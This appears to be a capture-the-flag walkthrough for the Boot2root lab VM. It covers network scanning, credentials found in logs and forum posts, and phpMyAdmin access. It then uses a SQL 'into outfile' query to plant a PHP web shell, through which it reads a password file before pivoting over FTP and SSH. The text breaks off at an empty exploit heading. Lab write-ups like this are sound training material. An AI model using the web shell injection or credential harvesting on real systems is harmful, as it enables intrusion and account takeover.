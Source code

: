 # Method 1

## FIND VMs ID

Let's configure 'virtual host adapter (192.168.56.1/24)' network to our VM and find it's IP.

```bash
MacBook-Pro-admin:~ avdementev$ nmap 192.168.56.1-255
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-09 00:09 MSK
Nmap scan report for 192.168.56.1
Host is up (0.00010s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE
111/tcp  open  rpcbind
999/tcp  open  garcon
1021/tcp open  exp1
1023/tcp open  netvenuechat
2049/tcp open  nfs

Nmap scan report for 192.168.56.100
Host is up (0.00038s latency).
All 1000 scanned ports on 192.168.56.100 are closed

Nmap scan report for 192.168.56.101
Host is up (0.00068s latency).
Not shown: 994 filtered ports
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
80/tcp  open  http
143/tcp open  imap
443/tcp open  https
993/tcp open  imaps

Nmap done: 255 IP addresses (3 hosts up) scanned in 81.90 seconds
```

The result IP will be like 192.168.56.x (In this case - 192.168.56.100)

## Scan 80 and 443
Let's open http://192.168.56.100
(TODO: add 1.png)

We will use penteesting tools like Burp Suite or dirb.
```bash
TODO: burp example
```

## FORUM - Probleme login ?

```
....
....
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Failed password for invalid user !q\]Ej?*5K5cy*AJ from 161.202.39.38 port 57764 ssh2
Oct 5 08:45:29 BornToSecHackMe sshd[7547]: Received disconnect from 161.202.39.38: 3: com.jcraft.jsch.JSchException: Auth fail [preauth]
Oct 5 08:46:01 BornToSecHackMe CRON[7549]: pam_unix(cron:session): session opened for user lmezard by (uid=1040)
```
!q\]Ej?*5K5cy*AJ - PASSWORD???
After some tries we got password for lmezards forum account
```
lmezard:!q\]Ej?*5K5cy*AJ
```
(TODO: add 2.png)

Lmezards mail is laurie@borntosec.net
Let's try to access to 192.168.56.x/forum with the same password

```
laurie@borntosec.net:!q\]Ej?*5K5cy*AJ
```

There is the message DB Access:

```
Hey Laurie,

You cant connect to the databases now. Use root/Fg-'kKXBj87E:aJ$

Best regards.
```

Now we can to access 192.168.56.x/phpmyadmin
(TODO: add 4.png)

## Reverse Shell

The basic reverse shell injection looks litke this

```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/backdoor.php"
```
It does not work becouse permission denied.

But it works:
```sql
SELECT "<?php system($_GET['cmd']); ?>" into outfile '/var/www/forum/templates_c/backdoor.php'
```

Now we can use this php like shell.

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=ls%20/home
```
LOOKATME ft_root laurie laurie@borntosec.net lmezard thor zaz
```

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=ls%20/home/LOOKATAME
```
password
```

https://192.168.56.101/forum/templates_c/backdoor.php?cmd=cat%20/home/LOOKATME/password
```
lmezard:G!@M6f4Eatau{sF"
```

And now we can to pass this data to ssh or ftp.
FTP is ok.
(TODO: add 5.png)

## Sort files (Lmezerd)

There are two files fun and README.md
```
MacBook-Pro-admin:lmezard avdementev$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

MacBook-Pro-admin:lmezard avdementev$ file fun
fun: POSIX tar archive (GNU)
MacBook-Pro-admin:lmezard avdementev$ tar xvf fun
x ft_fun/
x ft_fun/C4D03.pcap
x ft_fun/GKGEP.pcap
..
x ft_fun/Y8S1M.pcap
MacBook-Pro-admin:lmezard avdementev$ ls -l ft_fun/ | wc -l
     751
MacBook-Pro-admin:lmezard avdementev$ 
```

There are 751 file with pieces of code... The solve program in lmezard folder.

We got password:
```
Iheartpwnage
sha256(Iheartpwnage) = 330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

Let's connect to SSH:
```
laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
```

## Reverse program (laurie)

```
laurie@192.168.56.101's password:
laurie@BornToSecHackMe:~$ ls
bomb  README
laurie@BornToSecHackMe:~$ cat README
Diffuse this bomb!
When you have all the password use it as "thor" user with ssh.

HINT:
P
 2
 b

o
4

NO SPACE IN THE PASSWORD (password is case sensitive).
```

Lets download bomb file and open it in IDA.

```
MacBook-Pro-admin:Boot2root avdementev$ scp laurie@192.168.56.101:/home/laurie/bomb ./laurie
        ____                _______    _____           
       |  _ \              |__   __|  / ____|          
       | |_) | ___  _ __ _ __ | | ___| (___   ___  ___ 
       |  _ < / _ \| '__| '_ \| |/ _ \\___ \ / _ \/ __|
       | |_) | (_) | |  | | | | | (_) |___) |  __/ (__ 
       |____/ \___/|_|  |_| |_|_|\___/_____/ \___|\___|

                       Good luck & Have fun
laurie@192.168.56.101's password: 
bomb                                                                                                                                  100%   26KB  18.4MB/s   00:00  
```

### Phase1

![phase1](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_1.png)

### Phase2
![phase2](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_2.png)

### Phase3
![phase3](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_3.png)

### Phase4
![phase4](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_4.png)

### Phase5
![phase5](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_5.png)

### Phase6
![phase6_1](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_6_1.png)
![phase5](https://github.com/demsasha4yt/Boot2root/blob/master/laurie/phase_6_2.png)

## Turtle (Thor)

The basic list of turtles step
We'll use turtlejs to draw its way.
The password is SLASH

```bash
MBP-admin:Boot2root avdementev$ echo -n SLASH | md5
646da671ca01bb5d84dbb5fb2238dc8e
```

The result password is 646da671ca01bb5d84dbb5fb2238dc8e


### explot_me (Zaz)
